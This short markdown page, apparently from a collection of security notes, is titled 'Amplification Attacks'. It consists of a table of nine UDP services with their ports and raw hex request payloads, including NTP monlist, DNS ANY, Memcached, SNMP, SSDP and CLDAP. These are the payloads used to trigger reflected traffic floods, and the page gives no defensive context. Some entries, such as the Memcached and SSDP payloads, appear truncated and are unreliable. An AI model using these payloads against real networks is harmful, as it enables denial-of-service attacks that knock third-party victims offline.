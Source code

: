 # Amplification Attacks


|Protocol| Description |UDP Port | Request Payload HEX| 
|---| --- | ---| --- | 
|**NTP**| monlist command | 123 |`1700032a000000000000000000000000` | 
|**DNS**|  ANY google.com query| 53 |`17ea0100000100000000000106676f6f676c6503636f6d0000ff00010000290200000000000000` | 
|**Memcached**|  stat items |11211 | `5a4d0000000100007374617473206974` | 
|**SNMP**|  system description field using community string public | 161 |`302902010004067075626c6963a01c0204565adc5d020100020100300e300c06082b060102010101000500` |
|**CharGen**| one byte data "a" | 19 |`610a` |
|**RIPv1** | malformed request | 520 |`01010000000000000000000000000000`|
|**QOTD**| trigger a quote | 17 | `00`|
|**SSDP**| trigger response from UPnP SSDP service | 1900 |`4d2d534541524348202a20485454502f312e310a486f73743a3233392e3235352e3235352e3235303a313930300a53543a75706e703a726f6f746465766963650a4d616e3a22737364703a646973636f766572220a4d583a33`|
|**CLDAP**| searchrequest CLDAP | 389 | `30840000002d02010163840000002404000a01000a0100020100020100010100870b6f626a656374636c617373308400000000000a`|
